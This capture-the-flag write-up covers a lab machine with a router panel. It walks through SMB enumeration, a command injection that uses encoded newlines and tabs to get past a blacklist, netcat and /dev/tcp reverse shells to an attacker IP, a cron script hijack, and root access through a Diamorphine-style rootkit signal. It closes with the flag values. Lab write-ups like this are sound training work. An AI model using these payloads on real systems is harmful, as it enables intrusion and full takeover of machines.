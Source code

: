 ```yaml
---
sticker: emoji//1fab6
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got anonymous login enabled at `smb`, let's check it out:


```
smbclient -L \\\\10.10.214.108\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
SMB1 disabled -- no workgroup available
```

As we can see, we got a `public` share, let's take a look:

![](Pasted%20image%2020250423162152.png)

We got a file, let's get it and view the contents:

![](Pasted%20image%2020250423163005.png)

We got an endpoint, let's proceed with the web application then:

![](Pasted%20image%2020250423163046.png)

Nothing weird in here, let's go to the specified route:

```
http://10.10.214.108/myrouterpanel/
```

We can see this:

![](Pasted%20image%2020250423163143.png)

We can test some basic stuff, for example, let's try a simple ping to `127.0.0.1` to check the behavior:

![](Pasted%20image%2020250423163528.png)


Let's begin exploitation


# EXPLOITATION
---

As we can see, the ping goes through, based on this, we can try some command injection payloads, let's use a basic one to check the behavior:

![](Pasted%20image%2020250423163619.png)

There seems to be some blacklist surveilling which characters we put in the `ip`, we can try modifying the payloads until we get an advanced one, let's refer to our command injection notes, for example, here are a list of characters that may be helpful:

```bash
%3b      # URL-encoded ; (semicolon)
%26      # URL-encoded & (ampersand)
%7c      # URL-encoded | (pipe)
%0a      # URL-encoded newline (\n)
%09      # URL-encoded tab (space bypass)
%20      # URL-encoded space
+        # Often treated as a space in form data
${IFS}   # Internal Field Separator (space replacement)
```

I tried using a payload from a previous machine on `HackTheBox`:

```bash
ip=8.8.8.8%0Abash%09-c%09"id"%0A&submit=
```

![](Pasted%20image%2020250423164508.png)

There we go, it worked, let's craft a reverse shell:

```bash
ip=8.8.8.8%0Abash%09-c%09"nc -c /bin/sh 10.6.34.159 9001"%0A&submit=
```


![](Pasted%20image%2020250423164854.png)

If we check our listener:

![](Pasted%20image%2020250423164905.png)

There we go, we got our connection, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted%20image%2020250423165109.png)

After using linpeas, I found there is a `/usr/share/backups` directory owned by `www-data` with the group `athena`, let's take a look:

![](Pasted%20image%2020250423165916.png)

We got a `backup.sh` file, let's look at the contents:

```sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

The script does the following:

1. Creates a backup directory at `~/backup` (likely `/home/www-data/backup` since it's owned by `www-data`).
    
2. Copies **all files** from `/home/athena/notes/*` into the backup directory.
    
3. Zips the backup into `notes_backup.zip`.
    
4. Deletes all `.txt` and `.sh` files in `/home/athena/backup/`.
    
5. Prints a completion message.

But none of this is relevant, we know that `athena` may be running this as a cronjob, we can modify the contents of the file to embed a reverse shell:

```bash
# Add reverse shell payload
bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1' &
```

If we start our listener a wait a little bit:

![](Pasted%20image%2020250423170454.png)

We need to stabilize our shell again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Let's check our sudo privileges:

![](Pasted%20image%2020250423170829.png)

We can run something called `venom.ko`, let's have more info of it, we can do:

```
athena@routerpanel:/$ modinfo /mnt/.../secret/venom.ko
modinfo /mnt/.../secret/venom.ko
filename:       /mnt/.../secret/venom.ko
description:    LKM rootkit
author:         m0nad
license:        Dual BSD/GPL
srcversion:     93A81462832D4CF52F916D7
depends:
retpoline:      Y
name:           venom
vermagic:       5.15.0-69-generic SMP mod_unload modversions
```

As we can see, this is a rootkit written by `m0nad`, let's use GitHub:

![](Pasted%20image%2020250423171008.png)


This rootkit refers to something called `Diamorphine`, let's check the repo:

![](Pasted%20image%2020250423171043.png)

There we go, we got our way to get into root, since we need to send a `signal 64` to become root, we can do this:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -64 2865
```

![](Pasted%20image%2020250423171951.png)

If we check our id, it doesn't seem to work, this is because the signal has been modified to `57` instead of `64` on this rootkit, we can now do it again:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -57 pid
```

![](Pasted%20image%2020250423174845.png)

As seen, we are root:

```
athena@routerpanel:/$ cat /root/root.txt
aecd4a3497cd2ec4bc71a2315030bd48
```

```
athena@routerpanel:/$ cat /home/athena/user.txt
857c4a4fbac638afb6c7ee45eb3e1a28
```

![](Pasted%20image%2020250423175116.png)

